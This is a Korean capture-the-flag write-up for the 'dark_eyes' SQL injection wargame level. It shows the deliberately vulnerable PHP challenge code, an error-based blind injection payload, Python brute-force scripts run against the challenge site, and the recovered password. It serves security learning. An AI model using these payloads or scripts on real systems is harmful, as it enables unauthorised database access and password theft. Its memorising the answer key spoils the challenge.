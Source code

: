 # dark_eyes

## 1. Code
```php
<?php
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  if(preg_match('/col|if|case|when|sleep|benchmark/i', $_GET[pw])) exit("HeHe");
  $query = "select id from prob_dark_eyes where id='admin' and pw='{$_GET[pw]}'";
  $result = @mysqli_fetch_array(mysqli_query($db,$query));
  if(mysqli_error($db)) exit();
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  
  $_GET[pw] = addslashes($_GET[pw]);
  $query = "select pw from prob_dark_eyes where id='admin' and pw='{$_GET[pw]}'";
  $result = @mysqli_fetch_array(mysqli_query($db,$query));
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("dark_eyes");
  highlight_file(__FILE__);
?>
```

## 2. Condition
- `col if case when sleep benchmark`를 필터링한다.
- 에러 발생시, 빈화면을 리다이렉트 시킨다.   

## 3. Solution
먼저 공격 쿼리를 설계해 보았다.   

변수명 | 값
---|---
`pw` | 1234' or (SELECT 1 UNION SELECT `조건문`)#   

`UNION`을 이용할것인데, 참과 거짓을 나누는 원리는 다음과 같다.   

참 : 서브 쿼리속 조건문이 참 일 경우, `UNION`에 의해 1만이 전달된다(참 == 1).   
거짓 : 거짓일 경우, 1와 거짓이 `UNION`되어, 두개의 rows를 반환시킨다. &rarr; 오류가 발생한다.   



#### a. 길이 구하기
>    `length`함수를 이용하여 길이를 구하였다.   

```python
import requests

cookie = {'PHPSESSID' : '~~~~'}

for i in range(1,101):
    url = "https://los.rubiya.kr/chall/dark_eyes_4e0c557b6751028de2e64d4d0020e02c.php?\
            pw=1234' or id='admin' and (SELECT 1 UNION SELECT length(pw)=%d)%%23" % i
    res = requests.get(url, cookies=cookie)
    
    if not (res.text == ""):
        pw_len = i
        print("Length of pw : %d" % i)
        break
```   

>    실행 결과는 다음과 같다.   

```
Length of pw : 8
```   


#### b. 값 구하기
>    `ascii`와 `substr`함수를 이용하였다.
    `a. 길이 구하기`의 코드 뒤에 붙여 주었다.   
    
```python
import requests

cookie = {'PHPSESSID' : '~~~~'}

for i in range(1,101):
    url = "https://los.rubiya.kr/chall/dark_eyes_4e0c557b6751028de2e64d4d0020e02c.php?\
            pw=1234' or id='admin' and (SELECT 1 UNION SELECT length(pw)=%d)%%23" % i
    res = requests.get(url, cookies=cookie)
    
    if not (res.text == ""):
        pw_len = i
        print("Length of pw : %d" % i)
        break
        
pw_value = ""
for i in range(pw_len):
    for j in range(33,127):
        url = "https://los.rubiya.kr/chall/dark_eyes_4e0c557b6751028de2e64d4d0020e02c.php?\
            pw=1234' or id='admin' and (SELECT 1 UNION SELECT ascii(substr(pw,%d,1))=%d)%%23" % (i+1, j)
        res = requests.get(url, cookies=cookie)

        if res.text:
            pw_value += chr(j)
            print("pw(%d) : %s" % (i+1, pw_value))
            break
```   

>    실행 결과는 다음과 같다.   

```
Length of pw : 8
pw(1) : 5
pw(2) : 5a
pw(3) : 5a2
pw(4) : 5a2f
pw(5) : 5a2f5
pw(6) : 5a2f5d
pw(7) : 5a2f5d3
pw(8) : 5a2f5d3c
```   

나온 pw 값을 최종적으로 대입해 보면 문제가 해결된다.   
변수명 | 값
---|---
`pw` | 5a2f5d3c